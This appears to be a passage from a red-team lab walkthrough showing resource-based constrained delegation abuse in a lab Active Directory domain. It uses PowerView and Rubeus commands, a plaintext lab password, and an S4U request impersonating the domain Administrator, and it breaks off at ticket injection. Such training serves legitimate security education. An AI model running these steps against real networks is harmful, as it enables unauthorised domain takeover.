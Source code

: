     1. ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
-  Create a new plaintext credential object.
    
    1. $Cred = Get-Credential CONTOSO\rsteel
    
    > The password is Passw0rd!.
    
-  Find principals that have WriteProperty privileges on the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of computers.
    
    powershellTypeCopy
    
    `Get-DomainComputer -Server 'lon-dc-1' -Credential $Cred | Get-DomainObjectAcl -Server 'lon-dc-1' -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier`
    
-  Resolve the SID to a domain group.
    
    powershellTypeCopy
    
    `Get-ADGroup -Filter 'objectsid -eq "S-1-5-21-3926355307-1661546229-813047887-1107"' -Server 'lon-dc-1' -Credential $Cred`
    
-  Check for any existing RBCD configurations.
    
    powershellTypeCopy
    
    `Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount`
    
-  Add RBCD between _lon-fs-1_ and _lon-wkstn-1_, making sure not to overwrite the existing entry.
    
    powershellTypeCopy
    
    `$ws1 = Get-ADComputer -Identity 'lon-ws-1' -Server 'lon-dc-1' -Credential $Cred $wkstn1 = Get-ADComputer -Identity 'lon-wkstn-1' -Server 'lon-dc-1' -Credential $Cred Set-ADComputer -Identity 'lon-fs-1' -PrincipalsAllowedToDelegateToAccount $ws1,$wkstn1 -Server 'lon-dc-1' -Credential $Cred`
    
-  Verify that _lon-wkstn-1_ was added.
    
    powershellTypeCopy
    
    `Get-ADComputer -Identity 'lon-fs-1' -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount`
    
-  In the high-integrity Beacon, obtain a TGT for _lon-wkstn-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap`
    
-  Request a usable service ticket for _cifs/lon-fs-1_, impersonating the default domain administrator.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-wkstn-1$ /impersonateuser:Administrator /msdsspn:cifs/lon-fs-1 /ticket:[TGT] /nowrap`
    
-  Inject the ticket into a sacrificial logon session.
    